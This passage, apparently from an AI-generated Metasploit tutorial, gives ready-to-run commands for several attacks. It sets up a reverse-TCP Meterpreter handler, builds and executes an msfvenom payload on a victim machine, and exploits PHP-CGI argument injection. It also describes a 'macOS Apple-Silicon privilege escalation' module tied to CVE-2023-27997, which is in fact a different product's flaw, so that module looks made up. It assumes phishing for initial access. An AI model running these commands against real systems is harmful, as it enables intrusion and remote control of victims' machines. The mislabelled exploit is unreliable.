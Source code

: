 You can explore every module type directly inside the console – see the official “Running modules” guide for details【8†L32-L44】【8†L47-L51】.

---

## 5️⃣ Hands‑On Examples (ARM‑Mac Friendly)

Below each example assumes you have **already started `msfconsole`** and that `LHOST` is set to your Mac’s IP.

### 5.1 Simple Reverse‑TCP Shell on a Linux Target  

```bash
# In msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST $LHOST
set LPORT 4444
exploit -j          # run in background as a “handler” job
```

On the victim (a Linux VM in the same LAN):

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.100 LPORT=4444 -f elf -o /tmp/payload.elf
chmod +x /tmp/payload.elf && /tmp/payload.elf
```

When the payload connects you’ll see a new Meterpreter session appear in Metasploit.

> **msfvenom usage** – the command‑line options are documented here【6†L6-L13】.

### 5.2 macOS Apple‑Silicon Privilege Escalation (CVE‑2023‑27997)  

> This module works only on macOS 13.x on Apple‑Silicon. You need a **low‑privilege** user session first (e.g., from a phishing payload).

```bash
use exploit/macos/local/cve_2023_27997
set SESSION 1                     # ID of the low‑priv session you already have
set PAYLOAD osx/x64/meterpreter_reverse_tcp
set LHOST $LHOST
set LPORT 5555
run
```

If successful you’ll get a **root‑level** Meterpreter session.

### 5.3 Web‑App Exploitation – PHP‑CGI Arg Injection  

```bash
use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 192.168.56.101
set TARGETURI /index.php
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST $LHOST
set LPORT 4445
exploit -j
```
